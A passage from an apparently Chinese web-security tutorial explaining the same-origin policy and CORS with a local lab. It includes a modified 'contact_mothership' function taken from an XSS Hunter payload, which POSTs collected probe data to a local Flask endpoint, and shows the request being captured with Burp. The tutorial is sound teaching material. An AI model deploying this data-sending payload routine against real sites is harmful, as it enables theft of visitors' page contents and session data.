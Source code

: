 明白这两点，有助于我们更好的理解同源策略。

为了更好的理解，改一下前面的代码。
127.0.0.1:8000/csrf.html，这里包含了在讲解xssHunter的时候dump的JS代码

    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <script src="./xsshunter.js"></script>
        <title>Title</title>
    </head>
    <body>
    <!-- <iframe src="<http://127.0.0.1:5000/sec/csrf/post>"></iframe> -->
    </body>
    </html>

稍微修改一些JS代码中的contact_mothership函数，便于测试。

    function contact_mothership( probe_return_data ) {
        var http = new XMLHttpRequest();
        var url = "<http://127.0.0.1:5000/sec/post/data>";// 修改URL
        //http.withCredentials = true;
        http.open("POST", url, true);
        http.setRequestHeader("Content-type", "text/plain");
        http.onreadystatechange = function() {
            if(http.readyState == 4 && http.status == 200) {
                 alert(http.responseText); //新增代码，用于显示返回内容
            }
        }
        if( pgp_key == null || pgp_key == "" ) {
            http.send( JSON.stringify( probe_return_data ) );
        } else {
            generate_pgp_encrypted_email( function( pgp_message ){
                http.send( pgp_message )
            });
        }
    }

127.0.0.1:5000
[sec.py](http://sec.py/)

    @interface.route('/post/data', methods=['GET','POST'])
    def postDataTest():
        if request.method == 'POST':
            print("POST DATA SUCCESS!!!")
            resp = make_response("cross site success")
            # resp.headers['Access-Control-Allow-Origin'] = '*'
            return resp

先看一下，CORS默认设置的情况下。
访问`http://127.0.0.1:8000/csrf.html`
用burp抓包，可以看到请求`http://127.0.0.1:5000/sec/post/data`发送的包，我们请求一下，可以看到正确返回响应内容了。
